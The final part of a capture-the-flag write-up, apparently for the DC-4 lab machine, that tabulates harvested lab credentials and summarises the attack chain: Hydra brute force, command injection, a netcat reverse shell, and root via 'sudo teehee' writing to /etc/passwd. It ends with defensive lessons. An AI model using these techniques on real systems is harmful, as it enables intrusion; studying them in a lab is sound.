

The machine was fully owned.

---

## Credentials harvested

| User | Password | How I found it |
|------|----------|----------------|
| `admin` (web) | `happy` | Hydra on the web login |
| `jim` (SSH) | `jibril04` | Hydra on SSH with `old-passwords.bak` |
| `charles` | `^xHhA&hvim0y` | Leaked in `/var/mail/jim` |
| `root` | new user added | `sudo teehee` writing to `/etc/passwd` |

---

## Summary

| # | Step | Technique | Result |
|---|------|-----------|--------|
| 1 | Web login | Hydra brute force (http-post-form) | `admin:happy` |
| 2 | Admin panel | Command injection (`radio` field) | Run any command |
| 3 | Access | Netcat reverse shell | Shell as `www-data` |
| 4 | Enumeration | Found `old-passwords.bak`, Hydra SSH | `jim:jibril04` |
| 5 | Lateral move | Read `/var/mail/jim` | `charles:^xHhA&hvim0y` |
| 6 | Privilege escalation | `sudo teehee` writing to `/etc/passwd` | root |

---

## What I learned (defender's view)

- Weak passwords such as `happy` fall in seconds. Use long, random passwords and lock accounts after many failed logins.
- Never pass system commands through a form field. The app should allow only a fixed, safe list of actions.
- Do not store password backups on the server, and never put passwords inside emails.
- Limit sudo rights. Giving a user a tool like `teehee` as root is the same as giving full root access, because they can edit any file.
